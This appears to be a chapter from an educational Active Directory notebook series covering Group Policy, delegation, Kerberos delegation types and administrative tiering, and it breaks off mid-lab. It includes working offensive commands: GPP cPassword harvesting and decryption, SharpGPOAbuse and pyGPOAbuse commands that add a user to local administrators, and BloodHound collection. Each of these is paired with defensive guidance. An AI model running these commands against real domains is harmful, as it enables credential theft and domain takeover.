







This is Chapter 4 of the Active Directory series — Notebook 4. Chapter 3 defined the
principals (users, groups, computers) and the SIDs that identify them. This chapter is
about the machinery that *governs* those principals: **Group Policy**, which pushes
configuration and security settings to thousands of machines and users at once;
**delegation**, which lets you hand out slices of administrative power without minting
Domain Admins; and **administrative tiering**, the design that stops a single
workstation compromise from cascading into full domain takeover.

If Chapter 3 was "who can act", this chapter is "what they are allowed to do and how
that permission is applied". Group Policy and delegation are simultaneously the two
most useful administrative tools in AD and two of the richest attack surfaces — most
real-world AD compromises end by *abusing GPO or an over-broad delegation*, not by
cracking a password. So we go deep on both the mechanics and the abuse.

## Who This Chapter Is For (and the Map Ahead)

You need Chapters 1–3: objects/OUs/forest boundary, DCs/LDAP/SYSVOL/GC, and
principals/SIDs/groups/tokens. From there we build:

- **Part 1** — what a GPO actually *is* (two halves: the GPC in AD and the GPT in
  SYSVOL) and why that split matters.
- **Part 2** — linking and scope: how a GPO applies to an OU, and the LSDOU +
  precedence order.
- **Part 3** — filtering: security filtering, WMI filtering, and item-level targeting.
- **Part 4** — inside a GPO: the settings that carry security weight (GPP, scripts,
  restricted groups, scheduled tasks).
- **Part 5** — client-side processing: how and when a machine actually pulls and
  applies policy, plus `gpupdate`/`gpresult`.
- **Part 6** — the classic **GPP cPassword** vulnerability, worked end to end.
- **Part 7** — GPO **attack paths**: what an attacker does with write access to a GPO.
- **Part 8** — **delegation**: OU ACLs, the fields BloodHound turns into edges, RODC,
  and AdminSDHolder/adminCount.
- **Part 9** — **administrative tiering** (Tier 0/1/2), Protected Users, LAPS, and the
  clean-source principle.
- **Part 10** — hands-on lab: enumerate GPOs, delegation, and tiering violations.
- **Part 11** — pitfalls & misconceptions.
- **Part 12** — consolidated **Detection & Defense Angle**.
- **Parts 13–15** — Final Revision, Cheat Sheet, Practice Labs.

## Part 1: What a GPO Actually Is — GPC + GPT

A **Group Policy Object (GPO)** is not a single file or a single directory object. It
is a *pair* of things joined by a GUID:

1. The **Group Policy Container (GPC)** — an AD object living under
   `CN=Policies,CN=System,DC=corp,DC=local`. Its `cn` is the GPO's **GUID** (e.g.
   `{31B2F340-016D-11D2-945F-00C04FB984F9}` is the built-in *Default Domain Policy*).
   The GPC holds metadata: version numbers, status, the list of client-side extensions
   (`gPCMachineExtensionNames`), and — crucially for attackers — its **`gPLink`** back-
   references and its **`ntSecurityDescriptor`** (who can edit it).
2. The **Group Policy Template (GPT)** — a folder tree on the **SYSVOL** share of every
   DC, at `\\corp.local\SYSVOL\corp.local\Policies\{GUID}\`. This is where the *actual
   settings* live: `GPT.INI`, `Machine\` and `User\` subtrees, registry.pol files,
   scripts, and Group Policy Preferences XML.



**Why the split matters.** Because settings live on SYSVOL (a normal SMB share readable
by every authenticated user and every domain computer), **any domain user can read the
contents of every GPO** unless specifically restricted. That is exactly why the GPP
password bug (Part 6) was so devastating — the secrets were sitting in world-readable
XML on SYSVOL. It also means the *version numbers* in the GPC and in `GPT.INI` must
agree; if they drift (e.g. SYSVOL replication is broken), clients may apply stale
policy. **Blue-team relevance:** SYSVOL read access is a reconnaissance goldmine; treat
its contents as attacker-visible.

The two halves are versioned independently and reconciled by the client. The GPC's
`versionNumber` and the GPT's `GPT.INI` `Version=` must match; mismatches indicate
replication problems (DFS-R for SYSVOL on modern domains, FRS on very old ones).

## Part 2: Linking and Scope — LSDOU and Precedence

A GPO does nothing until it is **linked** to a container. The link is stored in the
container's **`gPLink`** attribute (an ordered, delimited list of GPO DNs plus flags).
GPOs can be linked at three levels of the AD hierarchy plus one special scope:

- **Local** — the machine's own Local Group Policy (not in AD).
- **Site** — an AD Site object (physical topology).
- **Domain** — the domain root.
- **OU** — any Organizational Unit, and nested OUs.

Processing order is the mnemonic **LSDOU**: **L**ocal → **S**ite → **D**omain →
**O**U (parent OUs before child OUs). Because later-applied policy overwrites earlier
policy for conflicting settings, **the GPO closest to the object wins by default** —
the OU directly containing the user/computer has the last word.



Two overrides bend this order:

- **Enforced (formerly "No Override")**: a link marked *Enforced* wins over anything
  lower in LSDOU — an Enforced domain policy beats a conflicting OU policy. Enforced
  links also punch through Block Inheritance.
- **Block Inheritance**: set on an OU, it stops policies from *above* flowing down —
  *except* Enforced links, which ignore the block.

There are also two halves inside every GPO — a **Computer Configuration** and a **User
Configuration**. Computer settings apply to machines in the linked scope at boot; user
settings apply to users at logon. **Loopback processing** is the special mode that
makes *user* settings depend on the *computer* the user logs into (Merge or Replace) —
essential for kiosks, RDS/Citrix, and jump hosts, and a subtle source of "why is this
setting applying?" confusion.

| Concept | Attribute / location | Effect |
|---------|----------------------|--------|
| Link | `gPLink` on site/domain/OU | Associates a GPO with a scope |
| Link order | order within `gPLink` | Lower number = higher precedence within that container |
| Enforced | flag in `gPLink` entry | Overrides lower scopes + Block Inheritance |
| Block Inheritance | `gPOptions` on OU | Stops inherited GPOs (except Enforced) |
| Loopback | policy setting | Apply computer's user-settings to any user logging in |

**Red-team relevance:** the `gPLink` attribute is writable if you have the right ACL on
the OU/site — meaning an attacker who can write `gPLink` can *link a malicious GPO to an
OU full of privileged machines* without ever editing an existing GPO. This is one of
the highest-value AD ACL edges.

## Part 3: Filtering — Security, WMI, and Item-Level Targeting

Linking scopes a GPO to a container, but you often want it to apply to only *some*
objects in that container. Three filtering mechanisms narrow application:

**1. Security filtering.** A GPO only applies to a principal if that principal has both
**Read** and **Apply Group Policy (AGP)** permissions on the GPO. By default the
special group **Authenticated Users** has Read + AGP, so the GPO applies to everyone in
scope. To target a subset, you remove Authenticated Users and add a specific group with
Read + AGP. This is a permission on the GPC's ACL — i.e. it's SID-based, exactly the
model from Chapter 3.

> Security note: after the MS16-072 hardening, the *computer* account must be able to
> **read** the GPO even when you security-filter to a user group; the standard fix is to
> leave *Authenticated Users* with **Read** (but not AGP) or grant **Domain Computers**
> Read. Getting this wrong makes GPOs silently stop applying — a real-world outage
> classic.

**2. WMI filtering.** A GPO can be gated by a **WMI query** (WQL) evaluated on the
client; the GPO applies only if the query returns true. Classic example — apply only to
64-bit Windows 10:

```wql
SELECT * FROM Win32_OperatingSystem
WHERE Version LIKE "10.%" AND ProductType = "1"
AND OSArchitecture = "64-bit"
```

WMI filters are powerful but add per-refresh evaluation cost and are a frequent cause
of "why didn't this apply?" troubleshooting.

**3. Item-level targeting (ILT).** Inside **Group Policy Preferences** (Part 4),
individual preference items can be targeted by dozens of criteria (OU, security group,
IP range, OS, whether a file exists, etc.) without splitting into separate GPOs.

| Filter type | Where set | Evaluated | Typical use |
|-------------|-----------|-----------|-------------|
| Security filtering | GPC ACL (Read+AGP) | At policy retrieval | Target a specific group |
| WMI filter | linked WMI filter object | Each refresh, on client | Target by OS/hardware/config |
| Item-level targeting | inside a GPP item | When that item processes | Fine-grained per-preference |

## Part 4: Inside a GPO — the Settings With Security Weight

A GPO can set thousands of things; a handful carry outsized security consequence:

- **Group Policy Preferences (GPP)** — drive-map, scheduled tasks, local users/groups,
  registry, files, shortcuts. Stored as XML on SYSVOL. GPP is the source of the
  cPassword bug (Part 6) and of the still-common pattern of *creating/renaming local
  admin accounts fleet-wide* (a lateral-movement enabler if the same password is used
  everywhere — the problem LAPS solves).
- **Restricted Groups / "Local users and groups" GPP** — controls membership of local
  groups (e.g. who is in local `Administrators`) across many machines at once. Misused,
  this hands out local admin broadly.
- **Scripts** — startup/shutdown (computer, run as SYSTEM) and logon/logoff (user).
  A startup script runs as **SYSTEM** on every machine in scope — an attacker who can
  drop one has code execution as SYSTEM everywhere the GPO links.
- **Scheduled Tasks (GPP)** — same idea; deploy a task that runs a payload.
- **Software Installation, Folder Redirection, Security Settings** (password/lockout
  policy, user-rights assignment like *SeDebugPrivilege*, audit policy) — the last one
  is how the *Default Domain Policy* sets the domain password policy.

The reason GPO is such a prized target becomes obvious here: **a single writable GPO
linked to many machines is remote code execution as SYSTEM at scale.** That is the
whole thesis of Part 7.

A useful way to rank GPO settings by *blast radius* is to ask "what runs code, and as
whom":

| Setting | Runs as | Blast radius if abused |
|---------|---------|------------------------|
| Startup script | SYSTEM (machine) | Code exec as SYSTEM on every in-scope machine |
| Logon script / `scriptPath` | the user | Code exec in each user's context |
| Immediate Scheduled Task (GPP) | configurable, often SYSTEM | Same as startup script, fires on next refresh |
| Software Installation (MSI) | SYSTEM at boot | Deploy an arbitrary MSI fleet-wide |
| Restricted Groups / GPP local group | n/a (membership) | Grant local admin everywhere the GPO links |
| User-Rights Assignment | n/a (privileges) | Grant `SeDebugPrivilege`/`SeBackupPrivilege` broadly |

The pattern is unmistakable: **the settings that carry security weight are precisely the
ones that either execute code as SYSTEM or hand out membership/privilege**. When you
audit a GPO, jump straight to these; a benign-looking "Workstations Baseline" that also
carries a startup script or a Restricted-Groups member is where the risk hides.

Folder Redirection and Software Installation deserve one extra note: both point clients
at a **network path** (a share for the redirected folder, an MSI on a distribution
point). If an attacker can write to that share, they control what every client executes
or loads — an indirect but real supply-chain-style path that a pure "who can edit the
GPO" review misses. Always check the *targets* a GPO points to, not just the GPO's own
ACL.

## Part 5: Client-Side Processing — When Policy Actually Applies

Policy is *pulled* by the client, not pushed by the DC. The lifecycle:

1. **Computer policy** applies at **boot** (before logon), as SYSTEM.
2. **User policy** applies at **logon**.
3. **Background refresh** happens periodically — default **90 minutes + 0–30 min
   random offset** for member machines, and **every 5 minutes** for Domain Controllers.
4. On refresh, the client reads each in-scope GPO's GPC (version), decides what changed,
   and invokes the relevant **Client-Side Extensions (CSEs)** to apply settings from the
   GPT. Some CSEs (security, GPP) can be forced to reapply even when unchanged.



Operator commands:

```cmd
gpupdate /force              :: reapply ALL policy now (not just changes)
gpupdate /target:computer /force
gpresult /r                  :: summary RSoP for current user/computer
gpresult /h rsop.html        :: full HTML report of applied/denied GPOs and winners
gpresult /scope computer /v  :: verbose, computer scope
```

`gpresult /h` is the fastest way to answer "which GPOs applied, which were filtered
out, and which setting won" — the client's own Resultant Set of Policy. **Blue-team
relevance:** `gpresult` on a suspect host reveals unexpected GPOs (an attacker's new
link) and denied GPOs (a misconfigured security filter).

## Part 6: The GPP cPassword Vulnerability — Worked End to End

For years, Group Policy Preferences let admins set passwords (local admin account,
mapped-drive creds, scheduled-task run-as) that were stored in the GPP XML on SYSVOL,
"encrypted" with **AES-256** — but Microsoft **published the static AES key** in the
MSDN documentation. Anything a domain user could read (all of SYSVOL) they could
decrypt. This is **MS14-025 / the `cPassword` bug**.

The vulnerable artifact is an XML file on SYSVOL such as `Groups.xml`,
`ScheduledTasks.xml`, `Services.xml`, `DataSources.xml`, or `Drives.xml`:

```xml
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}"
        name="Administrator (built-in)" image="2"
        userName="Administrator"
        cpassword="j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"/>
</Groups>
```

Because the AES key is public, decryption is trivial. From Kali:

```bash
# 1. Find cPassword across SYSVOL with any low-priv domain creds
nxc smb 10.10.10.5 -u jsmith -p 'Passw0rd!' -M gpp_password
# or manually mount and grep:
mount -t cifs //10.10.10.5/SYSVOL /mnt/sysvol -o username=jsmith
grep -rn "cpassword" /mnt/sysvol/ 2>/dev/null

# 2. Decrypt the recovered blob (Kali ships gpp-decrypt)
gpp-decrypt "j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw"
```

Realistic output:

```
[+] Found SYSVOL\corp.local\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml
[+] userName: Administrator
[+] cpassword decrypts to: SuperSecretLocalAdmin!23
```

If that local Administrator password is reused across the fleet (the usual case),
you now have local admin on **every** machine — a textbook path from *any* domain user
to widespread lateral movement.

**Fix / defense:** Microsoft removed the ability to *set* new cPasswords in MS14-025,
but **existing** GPP XML is not cleaned up automatically. **Blue-team action:** grep
your own SYSVOL for `cpassword` and delete offending preference items; move all local-
admin password management to **LAPS/Windows LAPS** (unique, rotated per-machine
passwords stored in AD and read-restricted). This single control kills both cPassword
and the shared-local-admin lateral-movement pattern.

## Part 7: GPO Attack Paths — What Write Access Buys an Attacker

The unifying idea: **control over a GPO (or over the ability to link one) that applies
to valuable machines/users = code execution on those objects.** The ACL edges that
grant this (all visible in BloodHound as `GenericAll`, `GenericWrite`, `WriteDacl`,
`WriteOwner`, `WriteProperty` on a GPO, or write to an OU's `gPLink`) turn into remote
code execution.

Typical chain once you can edit an in-scope GPO:



Tooling that automates this (lab/authorized use only):

```bash
# SharpGPOAbuse (from a Windows foothold): add an immediate scheduled task to a GPO
SharpGPOAbuse.exe --AddComputerTask \
  --TaskName "Update" \
  --Author CORP\Administrator \
  --Command "cmd.exe" \
  --Arguments "/c net localgroup administrators corp\jsmith /add" \
  --GPOName "Workstations Policy"

# pyGPOAbuse (from Linux with creds/hash): same primitive over the network
pygpoabuse.py CORP/jsmith:'Passw0rd!' -gpo-id "{GUID}" \
  -command 'net localgroup administrators corp\jsmith /add'
```

The moment that GPO refreshes on an in-scope host (or you force it), your task runs.
**If the writable GPO is linked to an OU containing a Domain Controller — e.g. the
Default Domain Controllers Policy — this is instant domain compromise.** That is why
write access to the *Default Domain Policy* / *Default Domain Controllers Policy* is
treated as Tier-0.

**Blue-team relevance:** GPOs are securable objects — audit *who* can edit each one
(`Get-GPO` + ACL), watch **event 5136** (directory object modified) on GPC objects,
watch **event 4674**/task-creation and Sysmon on member machines for GPP-delivered
scheduled tasks, and alert on any change to the two Default GPOs.

## Part 8: Delegation — Handing Out Power Without Domain Admin

**Delegation** is the legitimate practice of granting limited administrative rights via
**ACLs on AD objects and OUs**, instead of adding people to Domain Admins. Done well,
it's least privilege. Done badly, it's an invisible privilege-escalation graph — which
is precisely what BloodHound maps.

Every AD object has an **`ntSecurityDescriptor`** (its DACL). ACEs on it grant rights
like:

| Right (ACE) | What it lets the trustee do | Abuse |
|-------------|-----------------------------|-------|
| `GenericAll` | Full control | Anything — reset password, add to group, etc. |
| `GenericWrite` | Write any property | Set SPN (targeted Kerberoast), set `scriptPath`, `gPLink` |
| `WriteDacl` | Rewrite the object's ACL | Grant yourself GenericAll |
| `WriteOwner` | Take ownership | Then rewrite the DACL |
| `ForceChangePassword` / `User-Force-Change-Password` | Reset target's password | Take over the account |
| `AddMember` (WriteProperty on `member`) | Add members to a group | Add self to a privileged group |
| `AllExtendedRights` | Includes DS-Replication-Get-Changes* | **DCSync** if on the domain object |

The two extended rights **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-
All** on the *domain head* are what enable **DCSync** — impersonating a DC to pull any
user's password hashes (including `krbtgt`). Any non-Tier-0 principal holding these is a
critical finding.



### RODC — Read-Only Domain Controllers

A **Read-Only Domain Controller** holds a filtered, read-only copy of AD for branch/
edge sites. Its **Password Replication Policy (PRP)** controls which accounts' secrets
may be cached on it. Misconfigured PRP (caching privileged accounts) or compromise of an
RODC's `msDS-RevealedUsers` / KRBTGT-for-RODC turns a "safe" edge server into a
credential source. Treat RODCs as sensitive, and never let them cache Tier-0 accounts.

### AdminSDHolder and adminCount

AD protects privileged groups with **AdminSDHolder** — a special object
(`CN=AdminSDHolder,CN=System,…`) whose ACL is stamped, every **60 minutes** by the
**SDProp** process (run by the PDC emulator), onto every member of protected groups
(Domain/Enterprise/Schema Admins, Administrators, Backup/Print/Server Operators, etc.).
Members get `adminCount=1` and their inherited ACLs are replaced by AdminSDHolder's.

Two consequences:

- **Detection:** `adminCount=1` on a user who is *no longer* in a privileged group is a
  breadcrumb — they were privileged once; their ACL may still be locked down oddly.
- **Persistence (attack):** an attacker with rights to modify **AdminSDHolder's ACL**
  plants a backdoor ACE (e.g. GenericAll for a controlled account) that SDProp then
  *propagates to every privileged account every hour* — a stealthy, self-healing
  domain backdoor. Auditing AdminSDHolder's DACL is therefore mandatory.

### Reading an ACE by hand — SDDL

Delegation is invisible until you can read the raw ACL. Windows serialises security
descriptors in **SDDL** (Security Descriptor Definition Language), and you will meet it
in `Get-ADUser -Properties nTSecurityDescriptor`, in event-log payloads, and in tool
output. An SDDL string has up to four parts: **O**wner, **G**roup, **D**ACL, **S**ACL.
A single ACE inside the DACL looks like:

```
(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-...-1142)
 |  | rights bitmask               | | trustee SID (who gets this)
 |  |                              | object type (empty = applies to all)
 |  flags (inheritance)           inherited-object type
 ACE type: A=Allow, D=Deny, OA=object-allow (extended right)
```

The rights are two-letter tokens: `GA`=GenericAll, `GW`=GenericWrite, `WD`=WriteDacl,
`WO`=WriteOwner, `CC`=CreateChild, `DC`=DeleteChild, `RP`=ReadProperty,
`WP`=WriteProperty, `CR`=ControlAccess (extended right). So an ACE containing `WD` for a
non-admin SID = that principal can rewrite the object's DACL = they can grant themselves
`GA`. For **object-specific** extended rights (like DCSync's replication GUIDs), the ACE
is type `OA` and carries a GUID in the object-type field. Being able to eyeball
`(OA;;CR;1131f6ad-9c07-11d1-f79f-00c04fc2dcd2;;S-1-5-21-...-1142)` and recognise it as
**DS-Replication-Get-Changes-All granted to a helpdesk SID** — i.e. DCSync — is exactly
the fluency that turns a raw dump into a finding.

```powershell
# Dump a user's DACL as readable ACEs and hunt dangerous rights on it
(Get-Acl "AD:$((Get-ADUser svc_backup).DistinguishedName)").Access |
  Where-Object { $_.ActiveDirectoryRights -match 'WriteDacl|WriteOwner|GenericAll|GenericWrite' } |
  Select IdentityReference, ActiveDirectoryRights, ObjectType
```

### Kerberos delegation vs administrative delegation — don't conflate them

The word "delegation" carries **two** meanings in AD, and mixing them causes real
confusion. Everything above is **administrative delegation** — ACLs granting management
rights. **Kerberos delegation** is a different feature: it lets a service *impersonate a
user to a back-end service* on that user's behalf (the double-hop problem — a web server
that must query a database *as the logged-on user*). It comes in three flavours you must
recognise now, even though Chapter 5 dissects the ticket mechanics:

| Type | Set by attribute | Configured on | Risk |
|------|------------------|---------------|------|
| **Unconstrained** | `TRUSTED_FOR_DELEGATION` (`0x80000`) | the service's account | Highest — the service caches every user's forwardable TGT; own the host and you own everyone who touched it, incl. a DC via coercion |
| **Constrained (KCD)** | `msDS-AllowedToDelegateTo` list | the service account | Medium — impersonate *any* user to the *listed* SPNs; protocol transition (`TRUSTED_TO_AUTH_FOR_DELEGATION`) removes the "user must Kerberos-auth first" guard |
| **Resource-Based (RBCD)** | `msDS-AllowedToActOnBehalfOfOtherIdentity` | the target/resource | Configured from the resource side — the RBCD/`MachineAccountQuota` chain from Chapter 3 |



**Red-team relevance:** finding a computer with **unconstrained delegation** (that
isn't a DC) is a top objective — combine it with the *printer bug* (`SpoolSample`/
`PrinterBug`) or `PetitPotam` to **coerce a DC to authenticate to it**, capturing the
DC's TGT and thus the domain. Constrained delegation with protocol transition and RBCD
both let an attacker who controls the right object impersonate arbitrary users. **Blue-
team relevance:** enumerate all three continuously — no non-DC unconstrained delegation,
review every `msDS-AllowedToDelegateTo`, and alert on writes to
`msDS-AllowedToActOnBehalfOfOtherIdentity`.

```bash
# Enumerate every delegation type in one shot (Impacket)
findDelegation.py CORP/jsmith:'Passw0rd!'@10.10.10.5
```

```
AccountName   AccountType  DelegationType              DelegationRightsTo
============  ===========  ==========================  =============================
WEB01$        Computer     Unconstrained               N/A
svc_web       User         Constrained w/ Prot. Trans. MSSQLSvc/db01.corp.local
FAKE01$       Computer     Resource-Based Constrained  CIFS/target01.corp.local
```

Each row is a potential impersonation path; `WEB01$` (unconstrained) is the one that can
escalate to full domain compromise via coercion. These are the exact primitives
Chapter 5 explains at the ticket level.

## Part 9: Administrative Tiering — Containing the Blast Radius

Even with perfect delegation, one problem remains: **credential exposure**. When a
Domain Admin logs into a normal workstation to fix it, their credentials (or a Kerberos
TGT, or a token) land in that machine's memory — where malware or an attacker with local
admin can steal them (Mimikatz, LSASS dump). One compromised workstation + one careless
admin logon = Domain Admin. The **tiered administration model** exists to make that
impossible by design.

The model partitions identities and systems into three tiers:

- **Tier 0** — identities and systems that control the *identity* of the environment:
  Domain Controllers, AD itself, ADFS/PKI, the accounts that manage them. Compromise =
  total control.
- **Tier 1** — servers and applications (member servers, databases, business apps).
- **Tier 2** — user workstations and the accounts that support them (helpdesk).

The **rules** that give tiering its power:

1. A higher-tier credential is **never** exposed on a lower-tier system. A Tier-0 admin
   account may log on *only* to Tier-0 systems (a Privileged Access Workstation, a DC).
2. Lower tiers may **not** control higher tiers (no Tier-2 account with rights over a
   Tier-1 server, no Tier-1 account with rights over a DC).
3. **Clean source principle:** an object's security depends on all objects in control
   of it — you cannot secure Tier 0 from a Tier-2 management tool.



Supporting controls that make tiering enforceable:

- **Protected Users** group — members get no NTLM, no unconstrained delegation, no
  DES/RC4, and a short TGT lifetime; their creds resist theft/replay. Put Tier-0 admins
  in it (mind the app-compat caveats).
- **Authentication Policies & Silos** — cryptographically bind an account so it can only
  authenticate *from* designated hosts (enforce "Tier-0 accounts only from PAWs").
- **"Log on as a batch/service/locally/deny" user-rights** (via GPO) — deny Tier-0
  accounts interactive logon on Tier-1/2; deny Tier-2 accounts logon to servers/DCs.
- **LAPS / Windows LAPS** — unique local-admin passwords so local-admin on one box
  ≠ local-admin everywhere (kills the shared-password lateral pivot).
- **Privileged Access Workstations (PAWs)** — hardened, single-purpose admin machines
  that never browse the web or read mail.

**Red-team relevance:** the *entire* discipline of AD attack is finding a place where
tiering leaks — a Domain Admin token cached on a helpdesk-managed workstation, a Tier-2
account with WriteDacl on a Tier-1 server that manages a Tier-0 backup, a GPO that spans
tiers. BloodHound's "shortest path to Domain Admins" is literally a search for tiering
violations. **Blue-team relevance:** implementing tiering + LAPS + Protected Users +
authentication silos collapses those paths; it is the single highest-leverage AD
hardening program.

## Part 10: Hands-On Lab — Enumerate GPOs, Delegation & Tiering Gaps

Lab domain `CORP.LOCAL`, member machine or Kali with creds. Authorized/lab only.

### 10.1 Enumerate GPOs and their links (PowerShell/GPMC module)

```powershell
Import-Module GroupPolicy
Get-GPO -All | Select DisplayName, Id, GpoStatus, ModificationTime   # every GPO
Get-GPInheritance -Target "OU=Workstations,DC=corp,DC=local"          # what links here
Get-GPOReport -All -ReportType Html -Path C:\gporeport.html           # full settings dump

# WHO can edit each GPO? (the attack-relevant question)
Get-GPO -All | ForEach-Object {
  $g = $_
  Get-GPPermission -Guid $g.Id -All |
    Where-Object { $_.Permission -match 'Edit|GpoEditDeleteModifySecurity' } |
    Select @{n='GPO';e={$g.DisplayName}}, Trustee, Permission
}
```

### 10.2 Find GPP cPasswords on SYSVOL

```powershell
# Native search across SYSVOL for the cpassword artifact
findstr /S /I cpassword \\corp.local\SYSVOL\corp.local\Policies\*.xml
# PowerSploit helper (lab): Get-GPPPassword pulls and decrypts them in one shot
Get-GPPPassword
```

### 10.3 Map delegation and tiering with BloodHound

```bash
# Collect the graph (SharpHound over the network from Linux)
nxc ldap 10.10.10.5 -u jsmith -p 'Passw0rd!' --bloodhound -c All --dns-server 10.10.10.5
# then import the .zip into BloodHound and run:
#   - "Shortest Paths to Domain Admins"
#   - "Find Principals with DCSync Rights"
#   - the GPO node -> "Reachable High Value Targets"
```

### 10.4 Audit adminCount and AdminSDHolder

```powershell
# Orphaned privileged breadcrumbs: adminCount=1 but not currently in a protected group
